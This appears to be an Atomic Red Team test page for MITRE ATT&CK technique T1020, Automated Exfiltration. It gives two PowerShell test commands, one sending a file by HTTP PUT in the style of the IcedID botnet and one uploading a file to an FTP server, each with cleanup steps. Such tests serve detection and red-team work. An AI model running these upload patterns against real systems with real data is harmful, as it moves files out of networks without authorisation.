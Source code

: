 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)

- [Atomic Test #2 - Exfiltration via Encrypted FTP](#atomic-test-2---exfiltration-via-encrypted-ftp)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Exfiltration via Encrypted FTP
Simulates encrypted file transfer to an FTP server. For testing purposes, a free FTP testing portal is available at https://sftpcloud.io/tools/free-ftp-server, providing a temporary FTP server for 60 minutes. Use this service responsibly for testing and validation only.

**Supported Platforms:** Windows


**auto_generated_guid:** 5b380e96-b0ef-4072-8a8e-f194cb9eb9ac





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sampleFile | Path of the sample file to exfiltrate. | String | C:&#92;temp&#92;T1020__FTP_sample.txt|
| ftpServer | FTP server URL. | Url | ftp://example.com|
| credentials | FTP server credentials. | String | [user:password]|


#### Attack Commands: Run with `powershell`! 


```powershell
$sampleData = "Sample data for exfiltration test"
Set-Content -Path "#{sampleFile}" -Value $sampleData
$ftpUrl = "#{ftpServer}"
$creds = Get-Credential -Credential "#{credentials}"
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile "#{sampleFile}" -Credential $creds
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{sampleFile}" -ErrorAction Ignore
```





<br/>
